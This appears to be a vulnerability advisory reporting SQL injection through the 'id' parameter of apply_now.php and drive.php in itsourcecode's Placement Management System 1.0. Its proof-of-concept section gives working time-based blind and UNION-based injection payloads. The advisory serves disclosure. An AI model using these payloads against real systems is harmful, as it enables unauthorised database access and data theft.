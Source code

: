 # Vendor

itsourcecode

# Product

Placement Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/04/Placement-Management-System-Project-In-PHP-Source-Code.zip

# Description

In the apply_now.php page, the id parameter is not strictly filtered, allowing attackers to construct malicious payloads for SQL injection attacks.The same issue also exists on the drive.php page.
<img width="986" alt="image" src="https://github.com/user-attachments/assets/bad97145-69ee-4e11-aa44-d018393b3358">


# Poc
```
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 1150 FROM (SELECT(SLEEP(5)))cjwo) AND 'BTUh'='BTUh

    Type: UNION query
    Title: Generic UNION query (NULL) - 14 columns
    Payload: id=1' UNION ALL SELECT CONCAT(0x716a7a7171,0x7473767843427a464d48514b6e4b464a5365624d71574d7944575573446d62614950505a487a437a,0x7162626b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```
